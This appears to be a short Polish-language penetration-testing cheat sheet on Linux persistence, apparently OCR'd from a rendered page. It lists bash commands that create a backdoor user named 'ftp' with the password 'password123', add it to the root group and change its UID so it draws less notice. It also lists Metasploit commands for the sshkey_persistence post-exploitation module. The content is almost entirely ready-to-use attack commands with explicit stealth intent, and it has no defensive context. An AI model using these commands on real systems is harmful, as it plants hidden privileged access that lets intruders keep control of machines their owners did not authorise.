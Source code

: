 ## Linux Persistence

```bash
# ręczne dodanie użytkownika jako backdoor
useradd -m ftp -s /bin/bash
# nadanie hasła utworzonemu użytkownikowi
passwd ftp
    >password123
# sprawdzenie w jakich grupach jest root
groups root
# dodanie użytkownika z ftp do grupy root
usermod -aG root ftp
# sprawdzenie w jakich grupach jest użytkownik ftp
grups ftp
# zmiana id użytkownika ftp aby nie rzucał się w oczy
usermod -u 15 ftp
# mozna zmienic jeszcze kolejność w pliku /etc/passwd
```

```bash
# METASPLOIT
search persistence # wiele róznych mozliwości
use post/linux/manage/sshkey_persistence
set CREATESSHFOLDER true
chmod 0400 /.../loot/ssh_key # zmiana uprawnień pliku utworzonego w loot, pozwala zalogowac się za jego pomocą
```
